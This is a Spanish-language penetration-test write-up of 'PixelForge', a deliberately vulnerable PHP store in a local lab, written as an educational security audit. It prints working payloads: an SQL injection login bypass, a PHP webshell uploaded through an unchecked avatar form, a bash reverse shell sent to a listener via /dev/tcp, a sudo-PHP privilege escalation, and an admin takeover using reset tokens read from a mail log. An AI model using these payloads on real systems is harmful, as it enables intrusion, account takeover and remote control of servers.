


# 🎮 PixelForge (puerto 10000)

⬅ [PenguinWave](../penguinwave/README.md) · [README principal](../../README.md)

**Estado:** ✅ auditoría completada — 7 hallazgos, con dos rutas independientes hasta ejecución remota de código y dos rutas independientes adicionales de toma de cuenta administradora ([ver tabla](../../README.md#-hallazgos-confirmados) · [writeups individuales](../../writeups/))

Una tienda de videojuegos digitales. Mismo stack que PenguinWave (Apache + PHP), pero con fallos de otra naturaleza — y una cadena de compromiso bastante más seria.

## Descubrimiento de contenido

```bash
ffuf -u http://172.17.0.2:10000/FUZZ \
     -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
     -e .php,.html,.bak,.zip,.txt,.old,.json -t 40
```

A diferencia de PenguinWave, aquí no hay *soft-404* (las rutas inexistentes devuelven un 404 real), así que el resultado sale limpio: `login.php`, `register.php`, `forgot-password.php`, `store.php`, `cart.php`, `deals.php`, `account.php`, `dashboard.php` (solo accesible como admin), y los directorios `images/`, `inc/`, `uploads/` (sin listado, correcto). El parámetro `game.php?id=<slug>` no salió por ffuf — se encontró en los enlaces de la propia home.

## Cronología de la auditoría

<details open>
<summary><b>1️⃣ 🏆 Inyección SQL en login.php — toma de la cuenta administradora</b></summary>

<br>

El campo `username` del login se concatena directamente en la consulta SQL. Una comilla simple basta para confirmarlo:

```
Database error: You have an error in your SQL syntax; check the manual
that corresponds to your MariaDB server version... near
'9dd4e461268c8034f5c8564e155c67a6'' at line 2
```

El hash reflejado en el error es `md5("x")` — la contraseña de prueba enviada, confirmando de paso que las contraseñas se guardan en MD5 sin salt. El bypass completo:

```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=' OR '1'='1' -- -&password=x
```



`302 Found`, `Location: /dashboard.php` — sesión de **administrador**, sin ninguna credencial real:



**Detalle interesante:** `login.php` también acepta el login por JSON (`fetch()`, lo que usa la web normalmente) — se repitió toda la batería de pruebas (comilla, bypass por comentario, `SLEEP(5)`) específicamente contra esa vía, sin éxito en ninguna. Solo el formulario clásico (`x-www-form-urlencoded`) es inyectable — probablemente el resto de un login antiguo que nunca se borró al migrar a un flujo AJAX más moderno. Una buena lección: **un "no vulnerable" solo vale para la forma de petición que probaste.**

</details>

<details>
<summary><b>2️⃣ 🏆 Subida de avatar sin restricciones → ejecución remota de código</b></summary>

<br>

El formulario "Change profile picture" de `account.php` no valida extensión ni contenido, no renombra el fichero, y lo guarda en `/uploads/`, servido con PHP activo. Subiendo:

```php
<?php if(isset($_GET['cmd'])){ echo "<pre>"; system($_GET['cmd']); echo "</pre>"; } ?>
```

```bash
curl "http://172.17.0.2:10000/uploads/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**RCE confirmada.** Y no hace falta ser admin: se repitió con una cuenta de cliente autoregistrada al vuelo (sin verificación de email, contraseña de 1 carácter aceptada) con idéntico resultado — **dos rutas independientes** (SQLi directa, o autoregistro trivial) llegan al mismo RCE.

También se probó un `.svg` con `onload="alert(document.domain)"` — ejecuta JS al abrirlo directamente (no al verlo como ``), confirmando que no hay ningún filtrado, ni siquiera una whitelist básica de imágenes.

Los webshells de prueba se autoeliminaron tras confirmar la ejecución (`cmd=rm+-f+...`) — no queda ningún artefacto en el servidor del laboratorio.

</details>

<details>
<summary><b>3️⃣ Escalada de privilegios local (www-data → pepe) vía sudo mal configurado</b></summary>

<br>

Con el RCE, `sudo -l` revela:

```
User www-data may run the following commands on 8f74d00e817f:
    (pepe) NOPASSWD: /usr/bin/php
```

`php` está catalogado en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) como vector de escalada por `sudo`. Reverse shell como `pepe`:

```bash
# escribir el payload (como www-data)
curl "http://172.17.0.2:10000/uploads/shell.php" -G \
  --data-urlencode "cmd=echo 'bash -i >& /dev/tcp/<IP>/4444 0>&1' > /tmp/rs.sh"

# listener
nc -lvnp 4444

# disparar como pepe, abusando de la regla sudo
curl "http://172.17.0.2:10000/uploads/shell.php" -G \
  --data-urlencode "cmd=sudo -u pepe /usr/bin/php -r 'system(\"bash /tmp/rs.sh\");'"
```

```
Connection received on 172.17.0.2 59394
pepe@8f74d00e817f:/var/www/gamestore/uploads$
```

`pepe` tiene shell real (`/bin/bash`) y más acceso al filesystem que `www-data` — la puerta de entrada a los dos hallazgos siguientes.

</details>

<details>
<summary><b>4️⃣ Secretos y credenciales en texto plano en inc/config.php</b></summary>

<br>

Leyendo el fichero de configuración de la app desde la shell de `pepe`: credenciales reales de base de datos, y la **contraseña real del administrador en claro**, dentro del propio código de seed:

```php
['administrator', 'admin@pixelforge.gg', md5('letmein'), 'admin', 9999],
```

Confirmado por login normal, sin SQLi ni reset de contraseña:

```bash
curl -i -X POST http://172.17.0.2:10000/login.php -d "username=administrator&password=letmein"
# 302 Found, Location: /dashboard.php
```

El mismo fichero tiene además secretos con forma de producción (PayPal, AWS, Discord, Mailgun, Cloudflare, JWT) — con fuertes indicios de ser datos de relleno del laboratorio (el `AWS_ACCESS_KEY_ID` termina literalmente en `EXAMPLE`, el sufijo oficial de la documentación de AWS). No se probó ninguno contra las APIs reales de esos proveedores — fuera del alcance autorizado. Aun así, el fallo de diseño (secretos de producción hardcodeados en texto plano, sin gestor de secretos) se documenta como crítico: en un despliegue real con valores genuinos, el impacto iría desde fraude financiero (PayPal) hasta secuestro de DNS (Cloudflare) o forjado de tokens de sesión (`JWT_SECRET`).

</details>

<details>
<summary><b>5️⃣ 🏆 Toma de cuenta del administrador por tokens de reseteo filtrados en mail.log</b></summary>

<br>

La app no tiene SMTP real: cada email "enviado" se escribe en texto plano en `/var/www/gamestore-storage/mail.log`. Disparando un reseteo de contraseña para `administrator` y leyendo el log:

```bash
curl -X POST http://172.17.0.2:10000/forgot-password.php -d "username=administrator"
tail -20 /var/www/gamestore-storage/mail.log
```

```
Subject: Reset your PixelForge password
    http://172.17.0.2:10000/reset-password.php?token=8b7c7cb0365002186a4f83bd4d07168a
```

Abriendo ese enlace se pudo fijar una contraseña nueva para `administrator` — **confirmado de principio a fin**, cambiada a `administrator`/`administrator`. Se recopilaron y analizaron 4 tokens reales buscando un patrón predecible (hipótesis `md5(timestamp)`, comparación byte a byte entre tokens generados con 10s de diferencia): **no se encontró ninguno** — el token en sí parece generado correctamente, el fallo es únicamente que nunca debería haber sido legible desde el servidor.

**Esta es la segunda ruta independiente de toma de cuenta administradora** de PixelForge, sin relación con la inyección SQL del hallazgo 1️⃣.

</details>

<details>
<summary><b>6️⃣ Política de registro débil → segunda ruta independiente hasta el mismo RCE</b></summary>

<br>

`register.php` no aplica ninguna validación real: contraseña de 1 carácter aceptada, sin verificación de email, cuenta operativa al instante con 50 créditos de bienvenida. Esto por sí solo no es crítico — lo que importa es que **elimina toda fricción** para llegar al formulario de subida de avatar (bloque 2️⃣) sin pasar por la inyección SQL del bloque 1️⃣:

```
POST /register.php  username=qatester2&password=b   → 302 Location: /login.php
POST /login.php     username=qatester2&password=b   → 302 Location: /account.php
POST /account.php   avatar=qa_shell.php              → 302 Location: /account.php
GET  /uploads/qa_shell.php?cmd=id                     → uid=33(www-data)
```

**Dos rutas independientes, mismo resultado:** SQLi directa (0 registros) o autoregistro trivial (0 credenciales reales) — ambas llegan al mismo RCE. Si se arreglara solo una de las dos, la otra seguiría siendo plenamente explotable.

</details>

---

➡️ [WordPress](../wordpress/README.md) · [README principal](../../README.md)
